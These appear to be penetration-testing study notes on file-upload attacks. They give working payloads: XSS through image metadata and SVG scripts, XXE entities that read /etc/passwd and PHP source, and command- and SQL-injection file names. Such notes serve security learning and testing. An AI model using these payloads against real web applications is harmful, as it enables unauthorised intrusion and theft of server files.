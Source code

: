 ### XSS
- If web app allows us to upload HTML files, we can inject them with JS code to carry a (`Stored XSS`) or CSRF attack.
- If the web app displays an image metadata after its upload, we can include an XSS payload in one of the Metadata parameters.
- If we change the image's MIME-Type to `text/html`, some web applications may show it as an HTML document instead of an image, in which case the XSS payload would be triggered even if the metadata wasn't directly displayed.
- XSS carried by image metadata:
	``` bash
	$ exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
	$ exiftool HTB.jpg
	...SNIP...
	Comment                         :  ><img src=1 onerror=alert(window.origin)>
	```
- XSS carried by `SVG` images, `Scalable Vector Graphics (SVG)` images are XML-based. write the following to `HTB.svg`:
	``` XML
	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
	<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
	    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
	    <script type="text/javascript">alert(window.origin);</script>
	</svg>
	```
### XXE
- With SVG images, we can also include malicious XML data to leak the source code of the web application, and other internal documents within the server.
- Leak the content of `/etc/passwd`
	``` XML
	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
	<svg version="1.1" width="1" height="1" >&xxe;</svg>
	```
- To use XXE to read source code in PHP web applications
	```
	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
	<svg>&xxe;</svg>
	```

> After uploading the payload, go to a page that should display the image, open the source code of the page.
### Injections in File Name
- If the web application uses the file name within an OS command
	- `file$(whoami).jpg` or ``file`whoami`.jpg`` or `file.jpg||whoami`
- XSS payload in file name (e.g. `<script>alert(window.origin);</script>`), which would get executed on the target's machine if the file name is displayed to them.
- inject a SQL query in file name (e.g. `file';select+sleep(5);--.jpg`), which may lead to an SQL injection if the file name is insecurely used in an SQL query.
### Upload Directory Disclosure
- Refer to IDOR notes.
### Windows-specific Attacks
- To cause an error that discloses the upload directory:
	- One such attack is using reserved characters, such as (`|`, `<`, `>`, `*`, or `?`), which are usually reserved for special uses like wildcards.
	- Use Windows reserved names for the uploaded file name, like (`CON`, `COM1`, `LPT1`, or `NUL`).
	- Utilize the Windows [8.3 Filename Convention](https://en.wikipedia.org/wiki/8.3_filename) to overwrite existing files or refer to files that do not exist.